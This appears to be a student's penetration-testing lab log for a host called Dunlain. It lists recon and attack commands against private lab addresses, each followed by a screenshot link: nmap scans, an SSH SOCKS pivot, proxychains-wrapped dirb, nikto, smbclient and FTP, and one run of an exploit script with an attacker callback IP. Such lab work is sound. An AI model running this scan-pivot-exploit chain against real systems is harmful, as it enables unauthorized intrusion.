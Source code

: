 ﻿# Dunlain 192.168.10.30
## Andrea Zonnekus 18758119

ip a

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.001.png)

su firefart

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.002.png)

nmap -F 192.168.10.10/24 –open

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.003.png)

192.168.10.4

192.168.10.30



nmap -PN -sV -p- 192.168.10.30

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.004.png)

nmap -PN -sV -sU -F 192.168.10.30

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.005.png)

https://sushant747.gitbooks.io/total-oscp-guide/content/port\_forwarding\_and\_tunneling.html

ssh -D 9050 aetian@192.168.2.150 -o HostKeyAlgorithms=+ssh-dss

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.006.png)

proxychains nmap -sV -sC -p 21,80,135,139,445,3389,49154,49156 -O -Pn 192.168.10.30 --open -oN host

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.007.png)



proxychains dirb http://192.168.10.30 /usr/share/dirb/wordlists/big.txt -o http

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.008.png)

proxychains python exploit.py 192.168.10.30 10.8.0.106

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.009.png)

proxychains ftp 192.168.10.30

put test.txt

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.010.png)

proxychains smbclient -L 192.168.10.30

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.011.png)



proxychains nikto -host http://192.168.10.30 -o nikto -Format text

![](dunlain_steps/Aspose.Words.ee535d1b-b062-4147-9bf5-5fc88f7ec306.012.png)


